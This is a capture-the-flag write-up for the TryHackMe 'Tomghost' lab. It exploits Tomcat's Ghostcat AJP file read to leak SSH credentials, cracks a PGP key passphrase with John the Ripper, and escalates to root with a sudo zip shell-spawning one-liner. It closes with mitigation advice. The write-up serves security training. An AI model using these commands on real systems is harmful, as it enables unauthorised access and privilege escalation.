


# Tomghost


> Identify recent vulnerabilities to try to exploit the system or read files that you should not have access to.

**Task:** find the user flag and the root flag.

**Room link:** https://tryhackme.com/room/tomghost

---

## 1. Verify the machine is running

```bash
ping -c 3 10.130.172.110
```

- `-c 3` sends 3 ICMP echo requests and then stops

```
PING 10.130.172.110 (10.130.172.110) 56(84) bytes of data.
64 bytes from 10.130.172.110: icmp_seq=1 ttl=62 time=13.8 ms
64 bytes from 10.130.172.110: icmp_seq=2 ttl=62 time=12.8 ms
64 bytes from 10.130.172.110: icmp_seq=3 ttl=62 time=13.0 ms

--- 10.130.172.110 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 12.761/13.176/13.757/0.423 ms
```

The machine is running.

## 2. Scanning with nmap

```bash
sudo nmap -sC -sV -v 10.130.172.110
```

- `-sC` runs nmap's default set of safe scripts against each open port (banner grabs, basic enumeration, etc.)
- `-sV` probes open ports to determine service/version info
- `-v` increases verbosity, so results are printed as they're found instead of only at the end

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two interesting ports stand out: **8080** (HTTP, Tomcat 9.0.30) and **8009** (AJP13).

## 3. Looking for a direct exploit

```bash
searchsploit tomcat
```

- `searchsploit` queries a local copy of the Exploit-DB database for exploits matching the given keyword

No direct public exploit matches Tomcat 9.0.30 exactly. Checking the web interface on port 8080 just shows the default Tomcat landing page:



## 4. AJP13 and CVE-2020-1938 (Ghostcat)

Port 8009 running AJP13 on this Tomcat version is a strong hint toward **CVE-2020-1938**, aka **Ghostcat** — an Apache Tomcat AJP file read/inclusion vulnerability affecting Tomcat 6, 7, 8 and 9.

### Exploiting with Metasploit

```
msfconsole -q
msf > search CVE:2020-1938
```

```
Matching Modules
================

   #  Full Name                             Disclosure Date  Rank    Check  Name
   -  ---------                             ---------------  ----    -----  ----
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```

```
msf > use 0
msf auxiliary(admin/http/tomcat_ghostcat) > options
```

```
Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s)
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)
```

```
msf auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.130.172.110
msf auxiliary(admin/http/tomcat_ghostcat) > run
```

```
[*] Running module against 10.130.172.110
<?xml version="1.0" encoding="UTF-8"?>
...
<web-app ...>
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	sky****:8730281lkjlkjdqlksalks
  </description>
</web-app>
[+] 10.130.172.110:8009 - File contents save to: /home/verykraken/.msf4/loot/..._WEBINFweb.xml_166534.txt
[*] Auxiliary module execution completed
```

The leaked `web.xml` contains a set of credentials: `sky****:8730281lkjlkjdqlksalks`. Since the only other exposed service is SSH, let's try logging in with them.

## 5. SSH access as sky****

```
ssh sky****@10.130.172.110
```

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)
sky****@ubuntu:~$
```

Login succeeds. A quick look around:

```
sky****@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

```
sky****@ubuntu:~$ cat /etc/passwd
...
merlin:x:1000:1000:zrimga,,,:/home/merlin:/bin/bash
...
tomcat:x:1001:1001::/opt/tomcat:/bin/false
sky****@ubuntu:~$
```

So besides `sky****` and the service account `tomcat`, there's also a `merlin` user.

## 6. Grabbing the user flag

```
sky****@ubuntu:~$ ls -la /home/merlin
...
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
sky****@ubuntu:~$ cat /home/merlin/user.txt
THM{...........}
```

**User flag:** `THM{...........}`

`user.txt` is world-readable, so no privilege escalation to `merlin` was even needed to read it — but we still need to become `merlin` (and later `root`) to progress.

## 7. Decrypting credential.pgp

Two files sit in `sky****`'s home: `credential.pgp` and a public/secret key export `tryhackme.asc`. Let's import the key first.

```
sky****@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
```

```
sky****@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
Enter passphrase:
```

The secret key itself is passphrase-protected, and we don't have it. The passphrase has to be cracked from the key material in `tryhackme.asc`.

### Cracking the key passphrase

First, pull a copy of `tryhackme.asc` to the attacking machine:

```
sky****@ubuntu:~$ python3 -m http.server 4444
```

```
wget 10.130.172.110:4444/tryhackme.asc
```

Convert the key to a crackable hash with `gpg2john`:

- `gpg2john` converts a GPG/PGP key file into a hash format that John the Ripper can crack

```
$ gpg2john tryhackme.asc > hash
$ cat hash
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Bruteforce it with John the Ripper:

```
john hash --wordlist=~/GitClones/SecLists/Passwords/Leaked-Databases/rockyou-75.txt
```

- `--wordlist=<path>` tells John to try every candidate password in that file against the hash, instead of generating guesses on its own

```
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
...
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2026-10-06 15:54) 20.00g/s 21600p/s 21600c/s 21600C/s sweet1..thuglife
```

The passphrase is **`alexandru`**. Now the private key can be decrypted:

```
sky****@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
...
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
sky****@ubuntu:~$
```

This reveals credentials for `merlin`.

## 8. Switching to merlin

```
sky****@ubuntu:~$ su merlin
Password:
merlin@ubuntu:/home/sky****$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

## 9. Privilege escalation via sudo zip

```
merlin@ubuntu:/home/sky****$ sudo -l
```

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

`merlin` can run `/usr/bin/zip` as root with no password. Checking [GTFOBins](https://gtfobins.gm7.org/) for `zip` under the Sudo section confirms it can be abused to spawn a privileged shell, since zip doesn't drop its elevated privileges when invoked with a compression-test command:



```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

- `mktemp -u` generates a unique temporary filename without creating the file (`-u` = "dry run")
- `zip $TF /etc/hosts` creates a zip archive named `$TF` containing `/etc/hosts`, run as root via sudo
- `-T` tells zip to test the integrity of the archive right after creating it
- `-TT 'sh #'` overrides the command zip uses to run that test, replacing it with `sh #` — since this test command runs with root's privileges, it drops us into a root shell instead of actually testing the zip

Running it:

```
merlin@ubuntu:/home/sky****$ TF=$(mktemp -u)
merlin@ubuntu:/home/sky****$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

We're root.

## 10. Reading the root flag

```
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{...........}
```

**Root flag:** `THM{...........}`

<!-- IMG: tomghost_4.png -->

## Summary

This box chains three distinct issues into a full compromise:

1. **CVE-2020-1938 (Ghostcat)** — the Tomcat AJP connector on port 8009 allowed unauthenticated arbitrary file read/inclusion, which leaked `web.xml` containing valid credentials for `sky****` over SSH.
2. **Weak GPG passphrase** — a PGP-encrypted credentials file (`credential.pgp`) could only be opened after cracking the private key's passphrase with `gpg2john` + `john` against a wordlist, revealing `merlin`'s password.
3. **Misconfigured sudo rule** — `merlin` could run `/usr/bin/zip` as root with no password, which is a documented [GTFOBins](https://gtfobins.gm7.org/) privilege escalation primitive, giving a root shell.

**Flags captured:**
- User flag: `THM{...........}`
- Root flag: `THM{...........}`

**Mitigation:**
- Patch Tomcat and disable the AJP connector if unused, or bind it to localhost / require `requiredSecret`.
- Never store credentials in deployment descriptors like `web.xml`.
- Use strong, unique passphrases for private keys — short dictionary-based passphrases are trivially crackable offline.
- Audit `sudo -l` entries regularly and avoid granting NOPASSWD access to binaries listed on GTFOBins unless strictly necessary.

---

# ⚠️⚠️⚠️ IMG: MISSING ⚠️⚠️⚠️

<!-- https://ibb.co/whC7Hm5t -->